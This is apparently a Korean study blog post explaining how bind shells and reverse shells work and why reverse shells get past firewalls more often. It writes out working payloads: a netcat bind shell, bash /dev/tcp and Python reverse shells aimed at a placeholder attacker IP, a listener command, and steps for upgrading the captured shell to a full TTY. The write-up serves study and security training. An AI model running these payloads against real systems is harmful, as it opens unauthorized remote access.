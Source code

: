 ```yaml
---
layout: post
title: "리버스 쉘과 바인드 쉘 공부"
date: 2025-09-05 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

리버스 쉘은 공격 대상이 공격자에게 연결을 시작하는 방식이고 바인드 쉘은 공격 대상에 리스너를 열어 공격자가 직접 연결하는 방식이다.

두 가지 모두 원격에서 쉘을 획득하는 방법이지만 연결을 시작하는 주체와 방화벽 우회 가능성에서 차이가 있다.

---

### 2. 바인드 쉘 (Bind Shell)

*   **동작 원리:**
    1.  공격자는 대상 서버에 악성 코드를 실행시켜 특정 포트(예: 4444)를 열고 연결을 기다리도록 만든다. (리스너 실행)
    2.  공격자는 자신의 PC에서 대상 서버의 IP와 열린 포트로 직접 접속하여 쉘을 획득한다.
*   **페이로드 예시 (netcat):**
    ```bash
    # 대상 서버에서 실행
    nc -lvnp 4444 -e /bin/bash
    ```
    *   **한계:**
    대상 서버의 방화벽이 외부에서 내부로 들어오는 4444번 포트 연결(Inbound)을 차단하면 공격이 실패한다. 대부분의 네트워크 환경에서 이 방식은 차단될 가능성이 높다.

---

### 3. 리버스 쉘 (Reverse Shell)

*   **동작 원리:**
    1.  공격자는 자신의 PC에서 특정 포트(예: 4444)를 열고 연결을 기다린다. (리스너 실행)
    2.  대상 서버에서 악성 코드를 실행시켜 공격자 PC의 IP와 포트로 연결을 시도하도록 만든다.
*   **장점:**
    방화벽은 일반적으로 내부에서 외부로 나가는 연결(Outbound)은 허용하는 경우가 많기 때문에 바인드 쉘보다 성공 확률이 훨씬 높다.

#### **리버스 쉘 실행 3단계**

#### **1단계: 공격자 PC에서 리스너 설정**
가장 먼저 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   **-l**: 리스닝 모드로 동작한다.
*   **-v**: 상세한 정보(연결 상태 등)를 출력한다.
*   **-n**: IP 주소를 숫자로만 사용하고 DNS 조회를 하지 않는다. (속도 향상)
*   **-p**: 사용할 포트 번호를 지정한다.

#### **2단계: 대상 서버에서 페이로드 실행**
대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 사이트를 이용하면 다양한 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

#### **3단계: 쉘 안정화 (Stabilization)**
처음 획득한 쉘은 자동 완성(`Tab`), 명령어 히스토리(`↑`, `↓`), `Ctrl+C` 등이 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

   ![Reverseshell](/assets/images/Reverse_1.png)

1.  **TTY 쉘 생성:**
    `python`이나 `script` 명령어를 이용해 TTY(단말기) 환경을 생성한다.
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  **터미널 제어권 확보:**
    현재 쉘을 백그라운드로 보내고(`Ctrl+Z`) 로컬 터미널의 설정을 조정한 뒤 다시 포어그라운드로 가져와 터미널 제어 신호를 넘겨준다.
    ```bash
    # (Ctrl+Z 입력)
    stty raw -echo; fg
    # (Enter 두 번 입력)
    ```
3.  **환경 변수 설정:**
    터미널의 종류(`TERM`)와 크기(`stty rows/cols`)를 로컬 터미널과 동일하게 맞춰주어 `clear`나 텍스트 편집기 같은 전체 화면 애플리케이션이 정상적으로 동작하도록 설정한다.

<hr class="short-rule">
